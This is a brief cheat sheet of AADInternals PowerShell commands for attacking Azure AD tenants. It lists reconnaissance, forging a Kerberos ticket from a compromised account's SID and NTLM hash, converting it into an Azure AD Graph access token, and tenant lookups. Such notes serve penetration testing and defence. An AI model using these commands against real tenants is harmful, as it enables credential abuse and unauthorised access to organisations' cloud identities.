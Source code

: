 # AADInternals

## Github repo: https://github.com/Gerenios/AADInternals

## Official Documentation: https://aadinternals.com/aadkillchain/

### Commands:

 - Invoke-AADIntReconAsOutsider -Domain domain.local | Format-Table (Reconnaissance. Can be both from inside or outside the network)

 - $kerberos=NewAADIntKerberosTicket -SidString INTERNAL_AD_SID -Hash NTLM_HASH (Grab a Kerberos Ticket for the account mentioned on the INTERNAL_AD_SID, then use the NTLM hash of the compromised account)

 - Get-AADIntAccessTokenForAADGraph -KerberosTicket $kerberos -Domain DOMAIN.LOCAL (Initiate an access token for Azure AD Graph from the Kerberos Ticket. This is necessary so we can pass the token to use with ROADTools or any other tool we may need to use)

 - Get-AADIntLoginInformation -Domain DOMAIN.COM (Get login information about the target domain)

 - Get-AADIntTenantID -Domain DOMAIN.COM (Get tenant ID of the domain)





